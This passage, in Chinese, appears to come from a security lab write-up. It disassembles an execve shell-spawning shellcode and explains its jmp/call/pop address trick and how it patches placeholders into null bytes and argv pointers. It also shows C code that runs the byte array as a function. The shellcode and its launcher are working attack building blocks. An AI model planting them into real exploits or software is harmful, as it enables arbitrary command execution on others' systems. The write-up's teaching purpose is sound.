 经过线上的反汇编工具我得到了如下的汇编代码。

```assembly
0:  eb 36                   jmp    0x38
2:  5b                      pop    ebx
3:  48                      dec    eax
4:  31 c0                   xor    eax,eax
6:  88 43 09                mov    BYTE PTR [ebx+0x9],al
9:  88 43 0c                mov    BYTE PTR [ebx+0xc],al
c:  88 43 47                mov    BYTE PTR [ebx+0x47],al
f:  48                      dec    eax
10: 89 5b 48                mov    DWORD PTR [ebx+0x48],ebx
13: 48                      dec    eax
14: 8d 4b 0a                lea    ecx,[ebx+0xa]
17: 48                      dec    eax
18: 89 4b 50                mov    DWORD PTR [ebx+0x50],ecx
1b: 48                      dec    eax
1c: 8d 4b 0d                lea    ecx,[ebx+0xd]
1f: 48                      dec    eax
20: 89 4b 58                mov    DWORD PTR [ebx+0x58],ecx
23: 48                      dec    eax
24: 89 43 60                mov    DWORD PTR [ebx+0x60],eax
27: 48                      dec    eax
28: 89 df                   mov    edi,ebx
2a: 48                      dec    eax
2b: 8d 73 48                lea    esi,[ebx+0x48]
2e: 48                      dec    eax
2f: 31 d2                   xor    edx,edx
31: 48                      dec    eax
32: 31 c0                   xor    eax,eax
34: b0 3b                   mov    al,0x3b
36: 0f 05                   syscall
38: e8 c5 ff ff ff          call   0x2
```

这段汇编的目的是执行 `execve` 系统调用，在这之前需要准备一些参数。下边是这个系统调用在Linux中的签名。

```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

- `RDI` 寄存器包含 `pathname` 参数的地址。
- `RSI` 寄存器包含 `argv` 参数的地址。
- `RDX` 寄存器包含 `envp` 参数的地址。

首先跳转到 `call` 指令处然后由跳转回下一条指令 `pop` ，目的是设置 `EBX` 寄存器的值为所有字符串的首地址。然后开始准备参数，首先是将参数从’*’替换为’0’，然后把后边包含很多’A’，‘B’，‘C’和‘D’的四个字符串替换成了 `argv` 中的指针，分别指向上边上个字符串的首地址以及一个 `null` 。随后设置 `EAX` 的值为 `execve` 对应的值进行系统调用。

分析完这段shellcode之后看一下这个’call_shellcode.c’文件，这个文件把这段shellcode当成一个函数直接执行。

```c
int (*func)() = (int(*)())code;
func();
```

所以运行之后就会发现shellcode中的指令成功被执行。

